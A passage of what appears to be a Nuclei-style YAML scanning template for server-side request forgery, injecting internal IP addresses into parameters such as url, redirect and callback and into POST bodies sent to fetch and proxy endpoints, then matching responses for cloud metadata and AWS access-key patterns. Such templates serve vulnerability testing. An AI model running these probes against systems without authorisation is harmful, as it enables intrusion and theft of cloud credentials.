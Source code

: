 ```yaml
    - "192.168.1.1"
    - "172.16.0.1"
  
  ssrf_params:
    - "url"
    - "link"
    - "redirect"
    - "next"
    - "callback"
    - "feed"
    - "src"
    - "path"

http:
  - method: GET
    path:
      - "{{BaseURL}}"
    
    fuzzing:
      - part: query
        type: replace
        mode: multiple
        fuzz:
          - "{{ssrf_params}}={{internal_ips}}"
          - "{{ssrf_params}}=http://{{internal_ips}}"
          - "{{ssrf_params}}=https://{{internal_ips}}"
    
    matchers-condition: or
    matchers:
      - type: word
        words:
          - "IAM role"
          - "security-credentials"
          - "compute metadata"
          - "instance-id"
        condition: or
      
      - type: regex
        regex:
          - "\"AccessKeyId\"\\s*:\\s*\"[A-Z0-9]{16,}\""
          - "\"SecretAccessKey\"\\s*:\\s*\"[A-Za-z0-9/+=]{40}\""
        condition: or
      
      - type: dsl
        dsl:
          - "contains(body, 'private') && contains(body, 'ip')"
          - "contains(body, 'internal') && response_time > 3000"
        condition: or

  - method: POST
    path:
      - "{{BaseURL}}/api/fetch"
      - "{{BaseURL}}/proxy"
      - "{{BaseURL}}/redirect"
    
    headers:
      Content-Type: "application/json"
    
    body: |
      {"url": "http://{{internal_ips}}", "callback": "http://{{internal_ips}}/test"}
    
    attack: batteringram
    threads: 5
```